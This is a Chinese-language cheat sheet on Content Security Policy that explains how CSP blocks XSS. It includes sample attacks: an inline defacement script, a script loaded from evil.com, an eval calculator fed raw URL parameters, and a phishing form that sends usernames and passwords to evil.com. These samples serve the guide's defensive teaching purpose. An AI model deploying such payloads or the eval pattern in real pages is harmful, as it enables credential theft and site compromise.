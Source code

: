 # 内容安全策略（CSP）备忘录

## 引言

本文介绍了在 Web 应用程序客户端集成__深度防御__概念的方法。通过从服务器注入内容安全策略（Content-Security-Policy，CSP）头部，浏览器能够感知并保护用户免受加载到当前访问页面的动态调用的威胁。

## 背景

XSS（跨站脚本）、点击劫持和跨站泄漏漏洞的增加要求采用更加__深度防御__的安全方法。

### 防御 XSS

CSP 通过以下方式防御 XSS 攻击：

#### 1. 限制内联脚本

通过阻止页面执行内联脚本，如下攻击将无法生效：

```html
<script>document.body.innerHTML='defaced'</script>
```

#### 2. 限制远程脚本

通过阻止页面从任意服务器加载脚本，如下攻击将无法生效：

```html
<script src="https://evil.com/hacked.js"></script>
```

#### 3. 限制不安全的 JavaScript

通过阻止页面执行 `eval` 等文本转 JavaScript 的函数，网站将免受如下漏洞的威胁：

```js
// 一个简单的计算器
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```

#### 4. 限制表单提交

通过限制网站上的 HTML 表单可以提交数据的位置，注入钓鱼表单也将无法生效：

```html
<form method="POST" action="https://evil.com/collect">
<h3>会话已过期！请重新登录。</h3>
<label>用户名</label>
<input type="text" name="username"/>

<label>密码</label>
<input type="password" name="pass"/>

<input type="Submit" value="登录"/>
</form>
```
